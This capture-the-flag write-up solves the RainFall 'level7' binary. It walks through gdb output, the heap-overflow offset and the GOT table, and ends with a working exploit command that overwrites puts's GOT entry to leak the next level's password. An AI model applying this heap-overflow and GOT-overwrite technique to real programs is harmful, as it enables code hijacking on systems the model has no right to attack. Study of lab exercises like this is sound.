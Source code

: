 We got the binary level7 that do :

	param_2 = av
	puVar1 size of 8
	puVar1 = 1
	puVar2 size of 8
	puVar1[1] = puVar2
	puVar3 size of 8
	puVar3 = 2
	puVar2 size of 8, previous malloced address in puVar1[1]
	puVar3[1] = puVar2, newly allocated address
	copy 1st srgument in puVar1[1], puVar1 as string, so puVar1[1] as char
	copy 2nd srgument in puVar3[1], puVar3 as string, so puVar3[1] as char
	open "/home/user/level8/.pass" in FILE *__stream
	set value of __stream in the global var c for the size of 0x44
	print "~~"

We check the value of the global c

```sh
(gdb) x/x 0x8049960
0x8049960 <c>:  0x00000000
```

When we try 

```sh
level7@RainFall:~$ ./level7 test re
~~
```

It works so the flag is in the global c, but if we want to check the value with gdb we don't have the rights to open the flag's file

On top of that we have 2 strcpy that are vuln to stack overflow but here the destination is on the heap

```
Program received signal SIGSEGV, Segmentation fault.
0xb7e90ba7 in fgets () from /lib/i386-linux-gnu/libc.so.6
```

## Find offset of the heap overflow

```sh
(gdb) run AAAABBBBCCCCDDDDEEEEFFFF test
(gdb) info registers
eax            0x74736574       1953719668
ecx            0xbffff910       -1073743600
edx            0x46464646       1179010630
ebx            0xb7fd0ff4       -1208152076
esp            0xbffff6ec       0xbffff6ec
ebp            0xbffff718       0xbffff718
esi            0x0      0
edi            0x0      0
eip            0xb7eb1922       0xb7eb1922
eflags         0x210246 [ PF ZF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```
> So the offset is 6

```sh
(gdb) backtrace
#0  0xb7eb1922 in ?? () from /lib/i386-linux-gnu/libc.so.6
#1  0x080485c2 in main ()
(gdb) disas 0x080485c2
[...]
0x080485bd <+156>:   call   0x80483e0 <strcpy@plt>
0x080485c2 <+161>:   mov    $0x80486e9,%edx
```
> The offset goes to the 2nd strcpy

## Get puts's address
```sh
level7@RainFall:~$ objdump -R level7 

level7:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049904 R_386_GLOB_DAT    __gmon_start__
08049914 R_386_JUMP_SLOT   printf
08049918 R_386_JUMP_SLOT   fgets
0804991c R_386_JUMP_SLOT   time
08049920 R_386_JUMP_SLOT   strcpy
08049924 R_386_JUMP_SLOT   malloc
08049928 R_386_JUMP_SLOT   puts
0804992c R_386_JUMP_SLOT   __gmon_start__
08049930 R_386_JUMP_SLOT   __libc_start_main
08049934 R_386_JUMP_SLOT   fopen
```
> We will replace the puts call in the GOT to our function

## Get the offset

We know that we seg. fault at 21 char and not at 20 so :

`print('A'*20 + 'address to overwrite')`

## Get m's address

```sh
(gdb) x m
0x80484f4 <m>:	0x83e58955
```

## Exploit

```sh
level7@RainFall:~$ ./level7 `python -c "print('A'*20 + '\x28\x99\x04\x08')"` `python -c "print('\xf4\x84\x04\x08')"`
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1676290009
```

